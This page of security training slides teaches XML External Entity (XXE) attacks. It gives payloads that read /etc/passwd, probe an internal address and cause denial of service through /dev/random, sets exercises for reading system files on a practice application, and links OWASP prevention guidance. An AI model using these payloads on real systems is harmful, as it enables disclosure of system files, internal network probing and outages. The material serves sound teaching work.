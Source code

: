 
# XML with Attack Payloads

## Extracting Data

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
    <foo>&xxe;</foo>
```

---

## Network Probing

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "https://192.168.1.1/private" >]>
    <foo>&xxe;</foo>
```

## DoS Attack (against Linux-based Systems)

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///dev/random" >]>
    <foo>&xxe;</foo>
```

---

# Exercise 7.6

1. Identify the weak point of the application that accepts arbitrary XML
   data as input (:star::star:)
2. Retrieve the content of your local system‘s `C:\Windows\system.ini`
   (or `/etc/passwd` if you are using Linux) via an XXE attack
   (:star::star::star:)

---

# [Prevention](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
